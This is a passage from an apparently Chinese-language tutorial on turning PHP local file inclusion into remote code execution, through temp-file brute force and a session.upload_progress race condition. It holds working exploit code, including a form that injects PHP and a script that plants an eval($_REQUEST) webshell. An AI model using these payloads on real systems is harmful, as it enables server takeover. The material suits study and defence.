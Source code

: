 ```
                        url = base_url+"?"+parameter+"=/tmp/php"+filename
                        print url
                        try:
                            response = requests.get(url)
                            if 'success' in response.content:
                                print "[+] Include success!"
                                print "url:"+url
                                exit()
                        except Exception as e:
                            print e
```



## session

如果`session.upload_progress.enabled=On`开启，就可以包含session来getshell,并且这个参数在php中是默认开启的

[https://php.net/manual/zh/session.upload-progress.php](https://php.net/manual/zh/session.upload-progress.php)

> 当一个上传在处理中，同时POST一个与INI中设置的`session.upload_progress.name`同名变量时，上传进度可以在`$_SESSION`中获得。 当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据, 索引是 `session.upload_progress.prefix`与`session.upload_progress.name`连接在一起的值。

也就是说session中会添加`session.upload_progress.prefix`+`$_POST[ini_get['session.upload_progress.name']]`,而`session.upload_progress.name`是可控的，所以就可以在session写入php代码，然后包含session文件来rce

`session.upload_progress.prefix`和`session.upload_progress.name`还有session的储存位置`session.save_path`都能在phpinfo中获取，默认为:

[![](https://s2.ax1x.com/2019/04/29/E1xklt.png)](https://s2.ax1x.com/2019/04/29/E1xklt.png)

同时能看到`session.upload_progress.cleanup`是默认开启的，这个配置就是POST请求结束后会把session清空，所以session的存在时间很短，需要条件竞争来读取

下面测试一下，构造一个html来发包

```
&lt;form action="http://192.168.211.146/phpinfo.php" method="POST" enctype="multipart/form-data"&gt;
 &lt;input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="&lt;?php phpinfo(); ?&gt;" /&gt;
 &lt;input type="file" name="file1" /&gt;
 &lt;input type="file" name="file2" /&gt;
 &lt;input type="submit" /&gt;
&lt;/form&gt;
```

在数据包里加入`PHPSESSION`，才能生成session文件

burp不断发包，成功包含

[![](https://s2.ax1x.com/2019/04/29/E3ZrPx.png)](https://s2.ax1x.com/2019/04/29/E3ZrPx.png)

exp:

```
import requests
import threading

webshell = '&lt;?php eval($_REQUEST[daolgts]);?&gt;'.encode("base64").strip()
file_content = '&lt;?php if(file_put_contents("/tmp/daolgts", base64_decode("%s")))`{`echo "success";`}`?&gt;' % (webshell)

url='http://192.168.211.146/lfi.php'
r=requests.session()

def POST():
    while True:
        file=`{`
            "upload":('daolgts.jpg', file_content, 'image/jpeg')
```